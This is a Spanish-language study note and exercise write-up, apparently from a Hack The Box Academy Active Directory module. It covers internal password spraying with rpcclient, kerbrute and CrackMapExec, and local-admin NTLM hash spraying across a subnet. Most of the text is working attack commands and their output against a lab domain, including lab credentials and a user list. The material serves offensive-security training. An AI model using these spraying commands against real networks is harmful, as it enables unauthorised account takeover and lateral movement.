 Ahora que hemos generado un conjunto de usuarios, es el momento de iniciar el ataque.

## Ataque de fuerza bruta interna de contraseñas desde un host Linux

Una vez creada la lista de palabras mediante uno de los métodos mostrados en la sección anterior, es hora de ejecutar el ataque. 



#### Ataque password spraying con rpcclient
"Rpcclient" es una excelente opción para realizar este ataque desde Linux. 

Es importante tener en cuenta que un inicio de sesión válido no es evidente de inmediato con rpcclient, ya que la respuesta «Authority Name» indica un inicio de sesión exitoso. 
Podemos filtrar los intentos de inicio de sesión no válidos buscando «Authority» en la respuesta. El siguiente comando Bash de una sola línea (adaptado de aquí) se puede usar para realizar el ataque.

```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

Prueba una sola contraseña "Welcome1" y en caso de que funcione, ejecuta el comando "getusername;" y me devuelve el nombre del usuario y "Authority".
Lo ejecutamos y nos devuelve: dos usuarios que tienen dicha contraseña!.
```shell-session
Polika4RM@htb[/htb]$ for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done

Account Name: tjohnson, Authority Name: INLANEFREIGHT
Account Name: sgage, Authority Name: INLANEFREIGHT
```

####  Ataque password spraying con kerbrute
Ejecutando el mismo comando desde Kerbrute, obtenemos: 
```shell-session
Polika4RM@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:57:12 >  Using KDC(s):
2022/02/17 22:57:12 >  	172.16.5.5:88

2022/02/17 22:57:12 >  [+] VALID LOGIN:	 sgage@inlanefreight.local:Welcome1
2022/02/17 22:57:12 >  Done! Tested 57 logins (1 successes) in 0.172 seconds
```
Un usuario encontrado!

####  Ataque password spraying con crackmapExec

Con crackmap podemos ejecutar el escaneo de la siguiente forma: 
```shell-session
Polika4RM@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123 
```

Después de obtener credenciales útiles, las podemos verificar con: 

```shell-session
Polika4RM@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```


---
### Local Administrator Password Reuse

El **reuso de contraseñas del administrador local** es una práctica común en entornos Windows debido al uso de imágenes doradas (gold images) y configuraciones automatizadas, lo que permite que una misma contraseña se use en múltiples equipos.

Si un atacante obtiene la **contraseña o el hash NTLM** del administrador local en una máquina, puede intentar autenticarse en otros equipos de la red utilizando herramientas como **CrackMapExec**.

Este tipo de ataque se denomina **password spraying interno**, y suele enfocarse en **equipos de alto valor** (por ejemplo, servidores SQL o Exchange), donde es más probable encontrar credenciales privilegiadas almacenadas en memoria.

El atacante también puede aprovechar **patrones de contraseñas reutilizados** o **nombres de cuentas similares** (por ejemplo, de _bsmith_ a _bsmith_adm_ o de _ajones_ a _ajones_adm_), así como **credenciales compartidas entre dominios en entornos con relaciones de confianza**.

Cuando solo se dispone del **hash NTLM** (extraído del SAM local), puede realizarse un **spray del hash** a través de una red (por ejemplo, un /23) para identificar equipos con la misma contraseña de administrador local.  
El uso del parámetro `--local-auth` en CrackMapExec limita los intentos de autenticación a una sola por equipo, evitando bloqueos de cuentas o intentos fallidos en el dominio.

### Local Admin Spraying with CrackMapExec


```shell-session
Polika4RM@htb[/htb]$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

SMB         172.16.5.50     445    ACADEMY-EA-MX01  [+] ACADEMY-EA-MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.25     445    ACADEMY-EA-MS01  [+] ACADEMY-EA-MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.125    445    ACADEMY-EA-WEB0  [+] ACADEMY-EA-WEB0\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
```

El resultado anterior muestra que las credenciales eran válidas como administrador local en 3 sistemas de la subred 172.16.5.0/23. Podríamos entonces enumerar cada sistema para ver si encontramos algo que nos ayude a ampliar nuestro acceso.

Esta técnica, si bien es efectiva, genera bastante ruido y no es recomendable para evaluaciones que requieren sigilo. 

----
**TARGET: 10.129.209.78
 SSH to 10.129.209.78 with user "htb-student" and password "HTB_@cademy_stdnt!"
**1. Find the user account starting with the letter "s" that has the password Welcome1. Submit the username as your answer.**
En el ejercicio de la sección anterior, numeré un conjunto de 56 usuarios: 
```
jjones
tjohnson
sbrown
jwilson
bdavis
njohnson
asanchez
dlewis
ccruz
mmorgan
rramirez
jwallace
jsantiago
gdavis
mrichardson
mharrison
tgarcia
jmay
jmontgomery
jhopkins
dpayne
mhicks
adunn
lmatthews
avazquez
mlowe
jmcdaniel
csteele
mmullins
mochoa
aslater
ehoffman
ehamilton
cpennington
srosario
lbradford
halvarez
gmccarthy
dbranch
mshoemaker
mholliday
ngriffith
sinman
minman
rhester
rburrows
dpalacios
strent
fanthony
evalentin
sgage
jshay
jhermann
whouse
emercer
wshepherd
```

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.209.78
```

Añado todos estos usuarios a un archivo llamado "valid_users.txt"
```
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

Y me devuelve la solución:

```
┌─[htb-student@ea-attack01]─[/etc]
└──╼ $kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 10/31/25 - Ronnie Flathers @ropnop

2025/10/31 14:29:14 >  Using KDC(s):
2025/10/31 14:29:14 >  	172.16.5.5:88

2025/10/31 14:29:14 >  [+] VALID LOGIN:	 sgage@inlanefreight.local:Welcome1
2025/10/31 14:29:14 >  Done! Tested 34 logins (1 successes) in 0.039 seconds

```
Respuesta: sgage
